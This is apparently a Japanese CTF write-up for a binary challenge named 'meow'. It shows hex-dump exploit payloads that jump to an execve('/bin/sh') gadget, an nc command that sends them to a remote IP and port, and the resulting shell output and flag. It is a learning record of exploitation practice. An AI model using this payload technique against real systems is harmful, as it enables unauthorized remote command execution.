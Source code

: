 
`mov    $0x3b,%eax`を見つけて、本当に嬉しかった。そうです。みんなが探し求める`syscall 59: execve`です！

そして、後ろの命令列も`(bad)`とか出ててあやしいので文字列として表示したところ、0x14029から`/bin/sh`という文字列が格納されていることが判明！

### ここからが少しかかった

ということで、状況をまとめると以下のような感じに。

- 0x14000番地からのコードでexecveが呼べそう
- 最後の入力の先頭8バイトで任意の番地に飛ばせる
- 0x14029に`/bin/sh`がある

あとは、

- execveに渡すargv
- なんとかして`$rdi=0x14029`とする方法

さえ見つければ、シェルをとれそうです。

いろいろ試した結果、どうも`0x14000-0x14008`の命令列はゴミで、`0x1400c`に飛ばすとうまく`$rdi=0x14029`となり、さらになんと入力文字列の25文字目以降がうまくargvに指定されることがわかりました。

というわけで、以下の攻撃コードを`exploit.bin`として保存して

（先頭13バイトは、二つ目までの入力に対する応答に相当します。）
```
0000000: 24 57 33 33 37 6b 21 2b 2b 79 0a 33 0a 0c 40 01  $W337k!++y.3..@.
0000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 29 40 01  .............)@.
0000020: 00 00 00 00 00 00 6c 73                          ......ls
```

以下のように食べさせてあげると
```
cat exploit.bin | nc 110.10.212.139 50410
```

以下の出力が得られました。
```
fflag
whatpet
```

結果、以下の攻撃コードで
```
0000000: 24 57 33 33 37 6b 21 2b 2b 79 0a 33 0a 0c 40 01  $W337k!++y.3..@.
0000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 29 40 01  .............)@.
0000020: 00 00 00 00 00 00 63 61 74 20 66 66 6c 61 67 0a  ......cat fflag.
```
無事フラグを得ました。
```
flag{what a lovely kitty!}
```

### ちなみに
- もうひとつのファイル`whatpet`は、配布されていたバイナリ`meow`と全く同じファイルでした。
- サーバーのバージョンは`Ubuntu 16.04.1`でした。（結構長いコマンドも実行できてしまった）
- 実行ユーザーは`pet2`で、私が見たときには他に`pet`というユーザーがssh経由でログインしていました。
 
### まとめ
- はじめてそれなりにまともな問題を一人で解けた
- めっちゃCTFたのしい
